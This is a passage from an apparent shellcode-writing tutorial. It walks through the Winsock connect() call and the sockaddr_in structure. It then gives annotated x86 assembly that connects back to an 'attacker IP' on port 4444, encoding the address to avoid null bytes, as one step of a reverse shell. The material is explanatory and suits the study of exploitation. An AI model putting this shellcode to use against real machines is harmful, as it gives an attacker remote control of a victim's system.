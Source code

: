 * [`name`](https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-connect#:~:text=an%20unconnected%20socket.-,%5Bin%5D%20name,-A%20pointer%20to): This argument specifies a pointer to the [sockaddr](https://learn.microsoft.com/en-us/windows/win32/winsock/sockaddr-2) structure we use to specify the destination of this connection.
* [`namelen`](https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-connect#:~:text=an%20unconnected%20socket.-,%5Bin%5D%20name,-A%20pointer%20to): This argument specifies the length of the `name` argument;  depending on the socket type, we may use a different `sockaddr` structure.

Below is the definition of the `sockaddr` structure for connections using IPv4:
```c
struct sockaddr {
        ushort  sa_family;
        char    sa_data[14];
};
```
* [`sa_family`](https://learn.microsoft.com/en-us/windows/win32/api/ws2def/ns-ws2def-sockaddr#:~:text=Members-,sa_family,-The%20address%20family): Protocol family used by the socket.
* [`sa_data`](https://learn.microsoft.com/en-us/windows/win32/api/ws2def/ns-ws2def-sockaddr#:~:text=Address%20Families.-,sa_data%5B14%5D,-An%20array%20of): Socket Address.

Below is the definition of the `sockaddr_in` structure for connections using IPv4:
```c
struct sockaddr_in {
        short   sin_family;
        u_short sin_port;
        struct  in_addr sin_addr;
        char    sin_zero[8];
};
```
* [`sin_family`](https://learn.microsoft.com/en-us/windows/win32/api/ws2def/ns-ws2def-sockaddr_in#:~:text=Members-,sin_family,-The%20address%20family): Protocol family used by the socket.
* [`sin_port`](https://learn.microsoft.com/en-us/windows/win32/api/ws2def/ns-ws2def-sockaddr_in#:~:text=set%20to%20AF_INET.-,sin_port,-A%20transport%20protocol):  Port of number.
* [`sin_addr`](https://learn.microsoft.com/en-us/windows/win32/api/ws2def/ns-ws2def-sockaddr_in#:~:text=protocol%20port%20number.-,sin_addr,-An%20IN_ADDR%20structure): IPv4Address.
* [`sin_zero`](https://learn.microsoft.com/en-us/windows/win32/api/ws2def/ns-ws2def-sockaddr_in#:~:text=IPv4%20transport%20address.-,sin_zero%5B8%5D,-Reserved%20for%20system): Zero Padding (Reserved for system use).


Now lets look at the assembly generated by a call to the `connect(...)` function:
```
mov ebx,0x6955fe15      ; Attacker IP: 192.168.0.20. In reverse order:
                        ; hex(20) = 0x14, 0x14 + 0x55 => 0x69
                        ; hex(0) = 0x00, 0x00  + 0x55 => 0x55
                        ; hex(168) = 0xa8, 0xa8 + 0x55 => 0xfe
                        ; hex(192) = 0xc0, 0xc0 + 0x55 => 0x15
                        ; = 0x6955FE15
sub ebx,0x55555555      ; Subtract the const 0x55555555 to extract the original IP
push ebx                ; Push the IP (0x1400a8c0) to the stack (No NULL bytes in the shell code!)
push word 0x5c11        ; Push port: hex(4444) = 0x115c
xor ebx,ebx             ; Zero out EBX
add bl,0x2              ; sa_family: AF_INET = 2
push word bx            ; Push sa_family parameter
mov ebx,esp             ; EBX now has the pointer to sockaddr structure

push byte 0x16          ; Size of sockaddr: sa_family + sa_data = 16

push ebx                ; Push pointer ('name' parameter)

push esi                ; Push saved socket handler ('s' parameter)

mov ebx,0x71ab4a07      ; Address of connect()
call ebx                ; Call connect()
```
